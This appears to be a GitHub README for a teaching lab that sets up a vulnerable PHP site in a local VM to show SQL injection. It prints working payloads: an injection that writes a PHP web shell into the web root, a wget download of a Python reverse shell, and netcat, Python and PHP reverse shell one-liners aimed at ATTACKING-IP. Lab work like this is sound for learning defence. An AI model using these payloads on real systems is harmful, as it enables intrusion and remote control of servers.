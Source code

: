 SQL INJECTION ATTACK EXAMPLE
============================

This is a small project to show how easy it can be to exploit SQL injection and how dangerous it can be.

Setup Instructions
----------------------------

In order to setup locally, you will need Virtualbox, Vagrant and Ansible installed on your work machine.

```
// Clone the repository to your work machine.
# git clone git@github.com:doublehops/sql-injection-attack-example.git

// Change into the new directory download and run the virtual machine with:
# vagrant up

// Ensure you can ssh into the virtual machine:
# ssh vagrant@192.168.30.99 -i .vagrant/machines/default/virtualbox/private_key

// Use Ansible to provision (install the webserver, PHP, MariaDB/MYSQL) the box with the following:
# dev/provision.sh local_dev

// Import database schema and data into database:
# dev/ssh-import-database.sh

// Load the webpage in your browser to check all is well: http://192.168.30.99
```

Play Around with SQL Injection
------------------------------

I have added an example of how to exploit an SQL Injection vulnerability by changing the passwords of all users in the user table.
<a href="sql-injection-playground.php">SQL Injection Playground</a>. You need to reload the page to see the results as the select query is executed before the update request.


Gain Shell Access to Webserver with the Help of SQL Injection
-------------------------------------------

Inject SQL that will create a PHP script that will run passed commads:
http://192.168.30.99/login.php?username=d%27;select%20%22%3C?php%20system($_GET[%27cmd%27]);%22%20into%20outfile%20%22/var/www/web/images/system.php%22;  

__PYTHON BACKDOOR__

Download Python reverse shell  
http://192.168.30.99/images/system.php?cmd=wget%20http://192.168.30.99/scripts/reverse-shell.py -O /tmp/reverse-shell.py

Setup the waiting prompt on your host machine - Netcat must be installed:  
`nc -nlvp 4444`

Run new Python reverse shell.  
http://192.168.30.99/images/system.php?cmd=/tmp/reverse-shell.py

The terminal on the host machine waiting for connection should be connected now. Try typing `ls -l /var/www/web` to see the files listed.



NOTES
----------

Setup host machine for incoming connections:  
`nc -nvlp 4444`

__Run reverse shell command on foreign machine:__

Netcat reverse shell:  
`nc.traditional -e /bin/sh <host> 4444`

Python reverse shell:  
```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

PHP reverse shell:  
`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
